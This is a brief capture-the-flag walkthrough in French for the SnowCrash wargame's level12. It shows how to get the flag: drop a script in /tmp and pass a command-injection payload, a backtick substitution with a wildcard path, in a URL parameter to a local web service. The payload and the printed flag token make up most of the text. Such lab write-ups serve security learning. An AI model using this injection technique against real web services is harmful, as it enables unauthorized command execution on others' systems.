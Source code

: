 ### Comment obtenir le flag
level12@SnowCrash:~$ echo "getflag > /tmp/flag" > /tmp/SCRIPT  
level12@SnowCrash:~$ chmod 777 /tmp/SCRIPT  
http://192.168.1.63:4646/?x=%22`/*/SCRIPT`%22  
level12@SnowCrash:~$ cat /tmp/flag  
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr  
